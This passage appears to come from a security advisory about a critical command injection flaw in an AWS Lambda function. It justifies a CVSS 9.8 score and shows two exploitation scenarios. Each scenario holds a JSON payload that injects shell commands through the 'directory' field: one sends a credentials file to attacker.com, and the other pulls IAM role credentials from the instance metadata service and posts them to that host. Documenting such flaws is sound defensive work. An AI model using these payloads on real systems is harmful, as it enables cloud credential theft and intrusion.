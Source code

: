 This insecure pattern enables attackers to append malicious commands using shell metacharacters (like semicolons, pipes, or ampersands), potentially leading to unauthorized command execution within the Lambda environment. Given that Lambda functions typically run with specific IAM permissions, this vulnerability could allow attackers to access sensitive data, manipulate AWS resources, or pivot to other services within the AWS infrastructure.

# CVSS
**Score**: 9.8 \
**Vector**: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H \
**Severity**: Critical

The Critical severity rating (9.8) is justified by the following factors:

- **Network Attack Vector (AV:N)**: The vulnerability can be exploited remotely by anyone able to trigger the Lambda function (typically through API Gateway or other AWS event sources).

- **Low Attack Complexity (AC:L)**: Exploitation is straightforward, requiring only basic knowledge of shell injection techniques. No special circumstances or conditions need to exist for the attack to succeed.

- **No Privileges Required (PR:N)**: An attacker needs no special privileges beyond the ability to invoke the Lambda function, which is typically exposed as a public API endpoint.

- **No User Interaction (UI:N)**: The vulnerability can be exploited without any action from users or administrators.

- **Unchanged Scope (S:U)**: While the impact is limited to the Lambda environment, this is still significant given Lambda's IAM permissions and access to AWS infrastructure.

- **High Confidentiality Impact (C:H)**: The attacker can execute arbitrary commands that could access sensitive data within the Lambda environment, including environment variables, temporary files, and potentially AWS credentials.

- **High Integrity Impact (I:H)**: Command injection allows the attacker to create, modify, or delete files within the Lambda environment, potentially altering the function's behavior.

- **High Availability Impact (A:H)**: The attacker could execute resource-intensive commands or delete critical files, causing the Lambda function to fail or timeout.

# Exploitation Scenarios
**Scenario 1: Data Exfiltration**
An attacker invokes the Lambda function with the following payload:
```json
{
  "directory": ". ; curl -X POST --data "$(cat /tmp/credentials)" https://attacker.com/collect"
}

```
This causes the function to first execute `tar -czf /tmp/backup.tgz .` (which is harmless), followed by a command that sends the contents of any credentials file to the attacker's server. The attacker could target AWS credential files, environment variables (by accessing `/proc/self/environ`), or other sensitive data stored in the Lambda environment.

**Scenario 2: AWS Metadata Service Exploitation**
An attacker uses the following input to access the AWS metadata service:
```json
{
  "directory": "/ ; TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600") && curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/ > /tmp/roles && curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/$(cat /tmp/roles) | curl -X POST --data-binary @- https://attacker.com/aws-creds"
}

```
This extracts temporary AWS credentials from the metadata service and sends them to the attacker, potentially allowing access to other AWS resources with the Lambda's permissions.